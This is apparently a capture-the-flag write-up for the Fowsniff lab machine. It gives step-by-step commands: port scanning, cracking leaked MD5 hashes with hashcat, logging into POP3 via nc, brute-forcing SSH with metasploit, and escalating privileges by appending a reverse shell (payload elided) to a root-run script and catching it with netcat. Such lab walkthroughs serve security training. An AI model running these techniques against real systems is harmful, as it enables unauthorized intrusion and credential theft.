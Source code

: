 # Fowsniff CTF

## nmap
Relevant ports:

- 22    (ssh)

- 80    (http)

- 110   (pop3)

## @fowsniffcorp
https://x.com/fowsniffcorp -> http://pastebin.com/NrAqVeeX -> 404 Not Found

https://web.archive.org/web/20200606121945/pastebin.com/NrAqVeeX -> leak.txt

From leak.txt: users, hashes.md5

## hashcat
```bash
hashcat -a0 -m0 -O hashes.md5 /opt/wordlists/rockyou.txt
```
returns passwords for all users except 'stone'

## pop3
(metasploits auxiliary/scanner/pop3/pop3_login didn't work)

```bash
nc $IP 110
USER seina      # -> OK
PASS scoobydoo2 # -> OK
LIST            # -> OK 2 Messages
RETR 1          # -> Temporary ssh password: S1ck3nBluff+secureshell
```

## ssh
Using msfconsole:
```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS $IP
set USER_FILE users
set PASSOWRD S1ck3nBluff+secureshell
run
```

This will open 1 ssh session with user 'baksteen'

```bash
ssh baksteen@$IP
# baksteen@$IP's password: S1ck3nBluff+secureshell
```

## privesc
```bash
groups                      # -> users baksteen
find / -group users -type f # -> /opt/cube/cube.sh

# using python reverseshell
echo 'python3 -c ...' >> /opt/cube/cube.sh
logout
```

```bash
# Terminal 1
nc -lnvp 1234
```

```bash
# Terminal 2
ssh baksteen@$IP
```

```bash
# Terminal 1
cat /root/flag.txt
```
